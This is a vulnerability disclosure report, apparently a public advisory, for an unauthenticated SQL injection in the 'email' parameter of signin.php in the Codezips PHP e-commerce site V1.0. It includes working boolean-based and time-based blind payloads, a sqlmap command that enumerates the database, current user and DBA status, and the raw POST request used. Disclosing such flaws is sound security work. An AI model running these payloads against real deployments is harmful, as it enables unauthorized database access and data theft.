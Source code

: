 # Codezips E-commerce Site Using PHP With Source Code V1.0 signin.php SQL injection

# NAME OF AFFECTED PRODUCT(S)

- E-commerce Site Using PHP With Source Code

## Vendor Homepage

- https://codezips.com/php/e-commerce-site-using-php-with-source-code/

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- `zhangjiale`

## Vendor

- `codezips`

## Vulnerable File

- `signin.php`

## VERSION(S)

- V1.0

## Software Link

- https://codeload.github.com/codezips/ecommerce-site-using-php/zip/master

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the 'signin.php' file of  the 'E-commerce Site Using PHP With Source Code' project. The reason for this issue is that attackers inject malicious code from the parameter  'email' and use it directly in SQL queries without the need for  appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized  operations.

  <img src="./image/2.png" style="zoom:150%;" />

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve  unauthorized database access, sensitive data leakage, data tampering,  comprehensive system control, and even service interruption, posing a  serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "E-commerce Site Using PHP With Source Code", zhangjiale  discovered a critical SQL injection vulnerability in the "signin.php" file. This vulnerability stems from insufficient  user input validation of the 'email' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain  unauthorized access to databases, modify or delete data, and access  sensitive information. Immediate remedial measures are needed to ensure  system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability lonameion:

- 'email' parameter

## Payload:

```
Parameter: email (POST)
Type: boolean-based blind
Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
Payload: first_name=qqqq&last_name=qqqqq&email=123@qqd.com' RLIKE (SELECT (CASE WHEN (7267=7267) THEN 0x313233407171642e636f6d ELSE 0x28 END))-- OhTM&mobile=2123&signupaddress=123&password=123&signup=Sign Me Up!

Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: first_name=qqqq&last_name=qqqqq&email=123@qqd.com' AND (SELECT 6045 FROM (SELECT(SLEEP(5)))btFz)-- ItEg&mobile=2123&signupaddress=123&password=123&signup=Sign Me Up!
```

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
python sqlmap.py  -r url.txt -p email --current-db --current-user --is-dba
```

```
poc
POST /signin.php HTTP/1.1
Host: 192.168.75.224
Content-Length: 115
Cache-Control: max-age=0
Origin: http://192.168.75.224
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.75.224/signin.php
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=86k42l8aso8tibk6verjr20gc5
Connection: close

first_name=qqqq&last_name=qqqqq&email=123%40qqd.com&mobile=2123&signupaddress=123&password=123&signup=Sign+Me+Up%21
```

<img src="./image/1.png" style="zoom:150%;" />